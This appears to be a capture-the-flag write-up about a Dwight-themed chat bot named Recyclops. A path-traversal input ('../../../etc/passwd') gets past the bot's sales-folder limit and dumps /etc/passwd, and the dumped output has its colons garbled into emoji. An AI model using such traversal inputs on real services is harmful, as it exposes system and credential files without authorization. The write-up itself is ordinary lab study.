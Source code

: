 We get access to the chat and there is something about a bot that can list files
```
 kellylikescupcakes Hello. I am Recyclops. A bot assigned by Dwight. I will have my revenge on earthlings, but before that, I have to help my Cool friend Dwight to respond to the annoying questions asked by his co-workers, so that he may use his valuable time to... well, not interact with his co-workers.
Most frequently asked questions include:
- What time is it?
- What new files are in your sales directory?
- Why did the salesman crossed the road?
- What's the content of file x in your sales directory? etc.
Please note that I am a beta version and I still have some bugs to be fixed.
How to use me ? :
1. Small Talk:
You can ask me how dwight's weekend was, or did he watched the game last night etc.
eg: 'recyclops how was your weekend?' or 'recyclops did you watched the game last night?' or 'recyclops what kind of bear is the best?
2. Joke:
You can ask me Why the salesman crossed the road.
eg: 'recyclops why did the salesman crossed the road?'
<=====The following two features are for those boneheads, who still don't know how to use scp. I'm Looking at you Kevin.=====>
For security reasons, the access is limited to the Sales folder.
3. Files:
eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file src/test.php' or just 'recyclops file test.txt'
4. List:
You can ask me to list the files
5. Time:
You can ask me to what the time is
eg: 'recyclops what time is it?' or just 'recyclops time'
```
- If we sent private msg to it the cmd seems to work 
- When we try `recyclops file /etc/passwd` we get 
``` 
recyclops file /etc/passwd
Bot
6:22 PM
cat: /home/dwight/sales//etc/passwd: No such file or directory
```
- but this works `recyclops file ../../../etc/passwd`
```
root❌0:0:root:/root:/bin/bash
bin❌1:1:bin:/bin:/sbin/nologin
daemon❌2:2:daemon:/sbin:/sbin/nologin
adm❌3:4:adm:/var/adm:/sbin/nologin
lp❌4:7:lp:/var/spool/lpd:/sbin/nologin
sync❌5:0:sync:/sbin:/bin/sync
shutdown❌6:0:shutdown:/sbin:/sbin/shutdown
halt❌7:0:halt:/sbin:/sbin/halt
mail❌8:12:mail:/var/spool/mail:/sbin/nologin
operator❌11:0:operator:/root:/sbin/nologin
games❌12💯games:/usr/games:/sbin/nologin
ftp❌14:50:FTP User:/var/ftp:/sbin/nologin
nobody❌65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus❌81:81:System message bus:/:/sbin/nologin
systemd-coredump❌999:997:systemd Core Dumper:/:/sbin/nologin
systemd-resolve❌193:193:systemd Resolver:/:/sbin/nologin
tss❌59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
polkitd❌998:996:User for polkitd:/:/sbin/nologin
geoclue❌997:994:User for geoclue:/var/lib/geoclue:/sbin/nologin
rtkit❌172:172:RealtimeKit:/proc:/sbin/nologin
qemu❌107:107:qemu user:/:/sbin/nologin
apache❌48:48:Apache:/usr/share/httpd:/sbin/nologin
cockpit-ws❌996:993:User for cockpit-ws:/:/sbin/nologin
```